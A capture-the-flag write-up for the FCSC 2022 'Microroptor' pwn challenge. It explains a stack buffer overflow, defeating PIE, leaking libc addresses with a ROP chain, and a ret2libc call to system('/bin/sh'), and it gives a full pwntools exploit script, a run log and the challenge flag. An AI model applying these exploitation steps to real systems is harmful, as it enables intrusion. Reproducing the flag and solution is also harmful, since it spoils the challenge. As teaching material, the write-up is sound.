



# Microroptor
##### points: 300
###### tags: Leak, ret2libc, ROPchain

### Challenge description
*On vous demande d'exploiter le binaire fourni pour lire le fichier flag qui se trouve sur le serveur distant.*
micro ROP + Raptor = Microrotor

### Challenge files
* microroptor

### Challenge Discovery
```$ 
$ file microroptor
microroptor: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked
```
* ELF 64-bit x86
* Dynamically linked (so no symbols)
#### Protections



### TL;DR
* Use ptr leak to defeat PIE (get local function address)
* Buffer overflow to control the binary
* Leak libc adresses to know libc version and defeat ASLR
* Get back to main
* Ret2Libc -> get a shell
### Challenge resolution
#### Reverse Engineering
The binary is small, only the main function, we retrieve a pseudo-code thanks to Ghidra:

 
#### Buffer overflow

We can see a classic buffer overflow with a buffer of 32 char, but we can write more, thanks to read that allow us to write up to 0x200 bytes at the buffer address, that will allow us to control RIP (return address registry for x86).

So in order to control RIP, we need to send 32+8= 40 junk characters and then the next 8 bytes will be written in RIP.
```python
OFFSET = 40
RIP = p64(0xdeedbeef)

io = start()
io.sendline(b"A"*OFFSET+RIP)
```

Great now we can control RIP so we are able to jump were ever we want, as long as we got the address. (like main in order to relaunch the binary)

#### Defeat PIE
The program gives us a leak of a pointer to a string, that allow us to defeat PIE. We just need to calculate all needed functions with their offset to the leaked pointer.
```python
leak = int(io.recvline(),16) #receive leak

base = leak - 0x4010 #Base binary adresse
main = base + 0x1178 #Main start adresse
```
#### Leak libc
Now we are able to jump were ever we want and we know some addresses. But our goal is to be able to read the flag on the server, or at least get a shell.
To get a shell we need 2 things:
* "/bin/sh" string (or alternatives)
* a function or a syscall to pop a shell

We ain't got anyone in our binary, but they are both in the GLIBC that the binary use to call some basics functions.
Unfortunately, we don't have the libc file wich whose binary were built with.
So we need to leak some pointer to function in order to discover the libc version (Using https://libc.blukat.me/).

To leak some of theses addresses, we first need to know wich one our binary use during his execution:
```
objdump -R microroptor
...
0000000000003fb8 R_X86_64_JUMP_SLOT strncmp
0000000000003fc0 R_X86_64_JUMP_SLOT puts
0000000000003fc8 R_X86_64_JUMP_SLOT printf
0000000000003fd0 R_X86_64_JUMP_SLOT read
```
So we've got 4 candidates: strncmp, puts, printf, read
We need those functions addresses in the PLT ("Procedure Linkage Table", check if a function exist and where is it in the GOT) and the GOT ("Global Offset Table", where is the function address).
We can get it easily with pwntools:
```python
elf = context.binary = ELF(BIN_NAME)

elf.plt["function name"] + base
elf.got["function name"] + base
```
Don't forget to add the binary base address to get the right address.

We also need some gadget (little piece of assembly code present in the binary) to create our rop chain. We only need 1 for this part : `pop rdi; ret`, this gadget allow us to control what will be stored in RDI, registry in x86 who store 1st argument of a function.
```
ROPgadget --binary microroptor | grep "pop rdi ; ret"
0x000000000000116f : pop rdi ; ret
```

And we can use puts to print the address, we need to build a stack frame like that:
```
-------------
| A * 40     |
-------------
| POP_RDI    | <- To store into RDI 
--------------
| FUNC@GOT   |  <- To be stored in RDI (function to leak)
--------------
| PUTS@PLT   | <- Will be stored into RIP after the ret of the gadget
--------------
| MAIN       | <- Will be stored into RIP after the ret of puts
--------------
```
So we've got our first ROPchain like that:
rop1 = `A*OFFSET + POP_RDI + FUNC_GOT + PUTS_PLT + MAIN`
```python
fun_addr = base+elf.got[fun]
rop1 = [
POP_RDI, fun_addr,
puts_plt,
main
]
rop1 = b"A"*OFFSET
rop1 += ''.join([p64(r) for r in rop1])
io.sendline(rop1)
io.recvline()
leak_libc = io.recvline().strip().ljust(8,b'\x00')
```
By leaking, read, puts and printf we need to take the last 3 bytes of all address (because in the libc function are always at the same place, depending in the libc version)




And we get few libc version possibilities, by trying we can figure out than the right one is `libc6_2.31-13_amd64`

Then we can get system address and "/bin/sh" in order to get a shell.
```python
printf_offset = 0x056cf0
bin_sh_offset = 0x18a152
system_offset = 0x048e50

libc_leak = u64(leak("printf")) #Get printf address in order to calculate libc base address

libc_base = libc_leak - printf_offset #printf function in the binary - printf offset in the libc
BIN_SH = libc_base + bin_sh_offset
SYSTEM = libc_base + system_offset
```
We just need to create a final ropchain to get a shell:
```
-------------
| A * 40     |
-------------
| POP_RDI    | <- To store into RDI 
--------------
| BIN_SH     |  <- To be stored in RDI (function to leak)
--------------
| RET        | <- To align our ropchain (16bits modulo)
--------------
| SYSTEM     | <- Call to system (stored into RIP)
--------------
```
rop2 = `A*OFFSET + POP_RDI + BIN_SH + RET + SYSTEM`
#### Final Script
```python
└─$ cat exploit.py
#!/bin/python3
from pwn import *

BIN_NAME = "microroptor"
HOST_NAME= "challenges.france-cybersecurity-challenge.fr"
PORT = 2052

elf = context.binary = ELF(BIN_NAME)

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(HOST_NAME,PORT)
    else:
        return process(elf.path)


### START & GET LEAK ###
io = start()
leak = int(io.recvline(),16)

### DEFEAT PIE ###
base = leak - 0x4010
main = base + 0x1178
puts_plt = base+elf.plt["puts"]

### GADGETS ###
POP_RDI = base + 0x116f
POP_RSI = base + 0x1249
RET = base + 0x1016

### libc = libc6_2.31-13_amd64 (https://libc.blukat.me/?q=read%3Ae80%2Cputs%3A5f0%2Cprintf%3Acf0&l=libc6-amd64_2.31-9_i386)
printf_offset = 0x056cf0
bin_sh_offset = 0x18a152
system_offset = 0x048e50

OFFSET = 40 #How many char to fill the buffer with until we can control RIP

### LOGGING ###
log.success(f"ptr leak: {hex(leak)}")
log.success(f"base found: {hex(base)}")
log.success(f"puts_plt found: {hex(puts_plt)}")
log.success(f"main found: {hex(main)}")

### LEAK LIBC ADRESSE ###
def leak(fun):
        fun_addr = base+elf.got[fun] #Get function address in the GOT
        log.info(f"Leaking {fun}.got libc adress")
        rop1 = [
            POP_RDI, fun_addr,
            puts_plt,
            main
        ]
        rop1 = b'A'*OFFSET+b''.join([p64(r) for r in rop1]) #Building first ropchain to leak a fun address
        io.sendline(rop1) #Send 1st ropchain
        io.recvline()
        leak_libc = io.recvline() #Receive leak
        leak_libc = leak_libc.strip().ljust(8,b'\x00') #Leak formatage
        log.progress(f"{fun}_libc: {hex(u64(leak_libc))}")
        return leak_libc #Return leak

libc_leak = u64(leak("printf")) #Get printf adresse in order to calculate libc base adress


libc_base = libc_leak - printf_offset #printf function in the binary - printf offset in the libc
BIN_SH = libc_base + bin_sh_offset
SYSTEM = libc_base + system_offset

#2nd ropchain, pass /bin/sh as system() argument to get a shell
rop2 = [
    POP_RDI, BIN_SH,
    RET,
    SYSTEM
]
rop2 = b'A'*OFFSET+ b''.join([p64(r) for r in rop2]) #Build 2nd ropchain to get a shell

io.sendline(rop2) #Send 2nd ropchain
io.recvline()
io.recvline()
io.sendline(b"cat flag") #Get the flag
print(io.recvline()) #Print the flag
```


```                             
┌──(kali㉿kali)-[~/…/CTF/FCSC2022/pwn/1]
./exploit.py REMOTE
[*] '/home/kali/Secu/CTF/FCSC2022/pwn/1/microroptor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2052: Done
[+] ptr leak: 0x5b8fa8ccf010
[+] base found: 0x5b8fa8ccb000
[+] puts_plt found: 0x5b8fa8ccc040
[+] main found: 0x5b8fa8ccc178
[*] Leaking printf.got libc adress
[↑] printf_libc: 0x7679797adcf0
b'FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}\n'
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2052
```

flag: **FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}**
